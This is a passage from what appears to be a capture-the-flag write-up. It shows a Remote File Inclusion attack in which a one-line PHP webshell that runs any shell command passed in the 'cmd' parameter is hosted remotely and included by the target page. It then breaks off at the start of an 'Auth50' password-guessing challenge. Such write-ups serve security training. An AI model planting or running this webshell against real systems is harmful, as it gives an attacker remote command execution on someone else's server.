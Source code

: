 ### Solving
This time, we do not know where the flag is located, so we will perform a Remote
File Inclusion attack in order to turn the webpage into a basic webshell.

Let us host the following file on a remote server:

```injectablephp
<pre>
<?=shell_exec($_GET["cmd"])?>
</pre>
```

This essentially executes any shell command passed under the `cmd` `GET`
parameter.

We will launch it like this:

<img alt="lfi" src="img/lfi/9.png">

Now we can simply navigate to `/hidden_file.html` to get our flag.

## 🔒 Auth50

### Goal
We have to guess the username and the password.
